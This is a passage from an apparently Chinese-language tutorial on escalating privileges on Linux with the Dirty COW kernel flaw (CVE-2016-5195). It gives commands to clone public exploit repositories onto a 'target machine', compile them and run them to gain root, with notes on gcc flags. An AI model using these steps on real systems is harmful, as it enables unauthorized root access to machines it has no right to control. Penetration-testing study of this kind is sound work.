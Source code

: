 1.下载/上传该脚本到目标机下：  

```
git clone https://github.com/FireFart/dirtycow

```

  
2.编译该脚本：  

```
gcc -pthread dirty.c -o dirty -lcrypt

1.-Wall 一般使用该选项，允许发出GCC能够提供的所有有用的警告
2.-pedantic 允许发出ANSI/ISO C标准所列出的所有警告
3.-O2编译器的优化选项的4个级别，-O0表示没有优化,-O1为缺省值，-O3优化级别最高
4.-std=c++11就是用按C++2011标准来编译的
5.-pthread 在Linux中要用到多线程时，需要链接pthread库
6.-o dcow gcc生成的目标文件,名字为dcow
7.-lcrypt 添加需要的外部库

```

  
![](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicMpPD36Actic82CdxrXpCBwXbkwn2cicPcCnbu1BbqHfrWleXLc51Ab1hASr4r60lSHxfSXk75bhgOg/640?wx_fmt=jpeg&from=appmsg "")  
  
3.添加可执行权限并执行  

```
chmod +x ./dirty
./dirty 999999

```

  
![](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicMpPD36Actic82CdxrXpCBwX4Dhvwic9V78atE5icsv87XMFXvF5jpNVJL8zRZIwWHzljRGZ17hibEOTw/640?wx_fmt=jpeg&from=appmsg "")  
  
2）**使用CVE-2016-5195提权**  
  
脚本  
  
1.下载脚本到目标机器：  

```
git clone https://github.com/gbonacini/CVE-2016-5195.git

```

  
2.编译成可执行文件  

```
使用 g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow dcow.cpp -lutil
或者直接输入 make 进行

```

  
![](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicMpPD36Actic82CdxrXpCBwXt82VXC8bh1Ra1tmHe8wHZR0ibl8KRH45YdduewtwPFORhibB6qmukpBQ/640?wx_fmt=jpeg&from=appmsg "")  
  